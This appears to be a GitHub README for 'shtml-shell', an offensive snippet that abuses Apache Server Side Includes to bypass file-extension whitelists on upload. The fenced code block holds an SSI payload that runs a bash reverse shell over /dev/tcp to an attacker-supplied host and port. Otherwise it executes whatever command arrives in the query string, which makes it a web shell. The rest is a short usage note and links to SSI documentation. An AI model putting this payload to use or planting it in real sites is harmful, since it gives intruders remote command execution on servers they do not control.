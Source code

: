 # shtml-shell

This Shell abuses the Server Side Inclusions in HTML and allow you get get a reverse connection back to your own machin 

This can come in handy when you want to get arround file extension whitlist

Please change 0.0.0.0 to your host and 1337 to your port in the following lines if you want to get the reverse connection

```sh

<!--#if expr="$QUERY_STRING_UNESCAPED = \$zero" -->
<!--#set var="shl" value="bash -i >& /dev/tcp/0.0.0.0/1337 0>&1" --> 
<!--#else -->
<!--#set var="shl" value=$QUERY_STRING_UNESCAPED -->
<!--#endif -->

 ```
[![Product Name Screen Shot][product-screenshot]](https://example.com)

Referenses : 

 * What is SSI : https://httpd.apache.org/docs/current/howto/ssi.html#:~:text=What%20are%20SSI%3F,program%2C%20or%20other%20dynamic%20technology.
 
 * Learn about SSI : https://www.st-andrews.ac.uk/itsnew/web/ssi/

 * Documentation : https://httpd.apache.org/docs/2.4/mod/mod_include.html


[product-screenshot]: img/ssi-shell.png